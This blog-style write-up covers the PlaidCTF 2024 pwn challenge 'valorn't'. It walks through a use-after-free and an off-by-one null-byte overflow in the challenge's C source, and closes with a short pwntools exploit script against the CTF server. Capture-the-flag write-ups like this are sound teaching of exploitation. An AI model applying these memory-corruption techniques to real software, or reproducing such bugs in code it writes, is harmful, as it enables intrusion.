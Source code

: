 +++
title = "valorn't - PlaidCTF 2024"
date = 2024-04-23T20:00:41+02:00
draft = true
+++

I solved the easy pwn chall "valorn't" during PlaidCTF while playing with Friendly Maltese Citizens.

as usual, the goal was to win the game and read the flag
#
```c
    int ret = play_pew_pew_game();

	if (ret == 0) {
		read_flage();
	}
```
#
in order to win, `is_cheater` had to be set and the enemy team win-counter has to be `0`
```c
int play_pew_pew_game() {
	// ...
	
	if (is_cheater) {
		if (res->enemy_team == 0) {
			return 0;
		}
		else {
			puts("Dang, you're dogwater. Go back to the range");
			return 1;
		}
	}
	else {
		puts("Not good enough. Should be able to take out cheaters as well\n");
	}
	
	return 1;
}
```
first of all about the `is_cheater` variable:
in `play_rounds` you can set the `cheater_detected` variable corresponding to each `round_node_t` to `1` when entering a bad word in the post-round message.
however this is instantly undone in the if-branch after. this would normally result in `cheater_checker()`, which checks the `cheater_detected` property
for each round, to return `false`, so we'd loose. in our case, that isn't a problem though, since the if-branch introduces a use-after-free for `round_node_t`:
```c
if (rounds[curr_round]->cheater_detected == 1) {
	// ...
	rounds[curr_round]->cheater_detected = 0;
	free(rounds[curr_round]);
	printf("Would you like to report this to the devs? ");
	// ...
	scanf(" %c", &choice);
	// ...
	if (choice == 'y') {
		char *msg = malloc(0x70);
		get_message(msg, 0x70);
		// ...
	}
}
```
as you can see `rounds[curr_round]` isn't zeroed out and still used in `cheater_checker()`. we also immedeatly get to overwrite the `round_node_t` struct
affected by the uaf, which let's us set the `cheater_detected` successfully again. this is how we set `is_cheater` in `play_pew_pew_game()`.

to get the flag, the next constraint is `res->enemy_team == 0`.
however you automatically loose every second round, so you can't prevent the enemy win-counter to be set:
```c
if (curr_round % 2 == 0) {
	score->our_team += 1;
	printf("Congrats on the round win!!\n");
} else {
	score->enemy_team += 1;
	printf("Aww, you lost. You'll get em next time\n");
}
```
luckily there is also a vulnerabilitiy to let us bybass the check. after the game we're asked about some feedback. our input is read into the `msg` property of
the `game_t` structure. now the next vuln lies in `filter_message()`. if we place a bad word at the end of `msg`, plus our last weapon choice being `3`,
we have a null byte overflow:
```c
if (gun_choice == 3 && strstr(msg, "heck") != NULL) {
	printf("Swear detected! Filtering out\n");
	int idx = strstr(msg, "heck") - msg;
	int after_len = strlen(msg) + 1 - idx;
	char *before = malloc(idx + 1);
	char *after = malloc(after_len);
	strncpy(after, msg+idx+4, after_len);
	strncpy(msg + idx, "*****", 5);
	strncpy(msg+idx+5, after, after_len);
	msg[idx+5+after_len] = '\0';

	free(before);
	free(after);
	return 2;	
}
```
this tries to remove the bad word and replace it with asterisks, however also appends a null byte at the end, which goes out-of-bounds by 1 byte.
we're lucky that `game_t` has the following structure:
```c
typedef struct game_t {
	char msg[0x64];
	int enemy_team;
	int our_team;
	int last_used_weapon;
} game;
```
this means our off-by-one null byte overflow can zero out the enemy team and help us pass the check.
in combination with the uaf we can successfully win the game and get the flag. the exploit is pretty simple:
```python
from pwn import *

#p = process("./valor-not")
p = remote("valornt.chal.pwni.ng",1337)

for i in range(7):
    p.sendlineafter("Choose your weapon:","3")
    p.sendline("")
    p.sendline("y")
    p.sendline("cheater")
    p.sendline("y")
    p.sendline(b"A"*0x64+p32(0x1))

p.sendline("y")
p.sendline("A"*0x5f + "heck")

p.interactive()
```
